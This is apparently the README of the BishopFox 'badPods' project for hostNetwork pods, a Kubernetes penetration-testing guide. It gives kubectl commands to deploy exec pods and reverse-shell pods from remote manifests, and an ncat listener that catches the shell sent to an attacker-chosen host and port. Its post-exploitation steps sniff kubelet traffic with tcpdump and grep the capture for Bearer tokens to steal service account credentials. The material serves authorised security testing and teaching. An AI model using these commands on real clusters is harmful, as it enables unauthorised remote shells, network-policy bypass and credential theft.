

# Bad Pod #6: hostNetwork


If you only have `hostNetwork=true`, you can't get privileged code execution on the host directly, but if your cross your fingers you might still find a path to cluster admin. There are two potential escalation paths: 
* **Sniff traffic** - You can use `tcpdump` to sniff unencrypted traffic on any interface on the host. You might get lucky and find `service account` tokens or other sensitive information that is transmitted over unencrypted channels.
* **Access services bound to localhost** - You can also reach services that only listen on the host’s loopback interface or that are otherwise blocked by network polices. These services might turn into a fruitful privilege escalation path.
* **Bypass network policy** - If a restrictive network policy is applied to the namespace, deploying a pod with `hostNetwork=true` allows you to bypass the restrictions because you are bound to the host's network interfaces, and not the pod. 
## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post Exploitation](#post-exploitation)
  - [Install tcpdump and sniff traffic](#install-tcpdump-and-sniff-traffic)
  - [Investigate local services](#investigate-local-services)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)


# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl exec -it hostnetwork-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostnetwork-exec-[RESOURCE_TYPE]      
kubectl exec -it hostnetwork-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostnetwork-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostnetwork/[RESOURCE_TYPE]/hostnetwork-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
kubectl delete pod hostnetwork-exec-pod
kubectl delete cronjob hostnetwork-exec-cronjob
```


# Post Exploitation 

## Install tcpdump and sniff traffic 
*If you can't install tools to your pod (no internet access), you will have to change the image in your pod yaml to something that already includes `tcpdump`, like https://hub.docker.com/r/corfr/tcpdump*

```bash
apt update && apt -y install tcpdump net-tools netcat
```
You now have a few options for next steps: 

**See if the `kubelet` read port (10255/tcp) is open on any of the node's IPs**
```bash
nc -zv 10.0.0.162 10255
Connection to 10.0.0.162 10255 port [tcp/*] succeeded!
nc -zv 172.17.0.1 10255
Connection to 172.17.0.1 10255 port [tcp/*] succeeded!
```

**If the read port is open, run `tcpdump`, recording the output to a file for a few minutes**

**Warning:** Sniffing on an interface with a lot of traffic can cause the interface to DROP traffic, which is not what you want in an production environment. I suggest picking one port at a time for your packet captures (e.g., 10255, 80, 8080, 3000 25, 23)
**Warning:** Always run `tcpdump` with the `-n` flag. This turns off name resolution, and if you don't, the name resolution will bring the capture, and potentially the host, to its knees. 

```bash
tcpdump -ni [host or docker interface name] -s0 -w kubelet-ro.cap port 10255
```

**Stop the capture and read the file with `tcpdump`.  Tip: Use the `-A` flag to only show the printable characters and hunt for things like tokens with `grep`** 

```bash
tcpdump -ro kubelet-ro.cap -s0 -A
tcpdump -ro kubelet-ro.cap -s0 -A | grep Bearer
```

Cross your fingers and look for secrets.  If you are lucky, you might even get a jwt. If you are really lucky, that token might be associated with a service account in `kube-system`.


## Investigate local services
```bash
curl https://localhost:1234/metrics
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
